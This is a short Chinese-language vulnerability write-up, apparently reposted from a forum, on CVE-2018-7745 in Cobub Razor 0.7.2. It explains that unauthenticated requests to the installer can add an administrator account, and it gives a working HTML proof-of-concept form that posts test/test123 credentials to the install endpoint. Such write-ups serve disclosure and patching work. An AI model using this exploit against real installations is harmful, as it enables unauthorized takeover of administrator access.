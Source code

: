 # （CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户

> 原文：[https://www.zhihuifly.com/t/topic/2848](https://www.zhihuifly.com/t/topic/2848)

# （CVE-2018-7745）Cobub Razor 0.7.2 越权增加管理员账户

## 一、漏洞简介

Cobub Razor 0.7.2越权增加管理员账户漏洞，在不登录的情况下发送特定数据包，可新增管理员账号。保存如下利用代码为html页面，打开页面将增加test/test123的管理员账号，漏洞发现者已经将漏洞信息通过[issues](https://github.com/cobub/razor/issues/161)告知作者。

## 二、漏洞影响

Cobub Razor 0.7.2

## 三、复现过程

### POC

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://www.0-sec.org/index.php?/install/installation/createuserinfo" method="POST">
      <input type="hidden" name="siteurl" value="http://127.0.0.1/" />
      <input type="hidden" name="superuser" value="test" />
      <input type="hidden" name="pwd" value="test123" />
      <input type="hidden" name="verifypassword" value="test123" />
      <input type="hidden" name="email" value="12@qq.com" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```